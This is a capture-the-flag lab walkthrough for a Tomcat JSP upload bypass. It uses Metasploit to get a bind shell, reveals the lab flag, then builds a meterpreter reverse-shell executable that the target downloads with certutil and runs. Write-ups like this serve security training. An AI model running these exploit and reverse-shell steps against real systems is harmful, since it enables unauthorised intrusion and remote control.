

# 🔬Tomcat - MSF Exploit

## Lab 1

>  🔬 [Windows: Java Web Server](https://attackdefense.com/challengedetails?cid=1948)
>
>  - Target IP: `10.2.24.113`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution](https://www.exploit-db.com/exploits/42966)

```bash
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 10.2.24.113
setg RHOST 10.2.24.113
workspace -a TOMCAT
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 10.2.24.113
```



- Try tomcat from a browser
  - `http://10.2.24.113:8080/`

```bash
services
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
info
# Description:
#  This module uploads a jsp payload and executes it.
check
run
```

- Or use a specific payload

```bash
set payload java/jsp_shell_bind_tcp
options
set SHELL cmd
run
```

- A CMD shell session is provided

```bash
cd /
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`92d60a06d0ea2179c9a8c442c0bd0bc0`


</details>


- Obtain a `Meterpreter` session

```bash
background
sessions
```

- Generate a Windows `meterpreter` payload. Open a new terminal tab

```bash
ip -br -c a

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.18.2 LPORT=1234 -f exe > meterpreter.exe
```

```bash
sudo python3 -m http.server 80
```

- In the first `msfconsole` tab

```bash
sessions
sessions 2

certutil -urlcache -f http://10.10.18.2/meterpreter.exe meterpreter.exe
```

- Terminate the python web server and set up the handler in the second tab

```bash
vim handler.rc
# Insert the following lines

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.18.2
set LPORT 1234
run

# Save it and exit
```

```bash
msfconsole -r handler.rc
```

- Execute the `meterpreter.exe` on the target system

```bash
.\meterpreter.exe
```

- Reverse `Meterpreter` session will be opened.

------

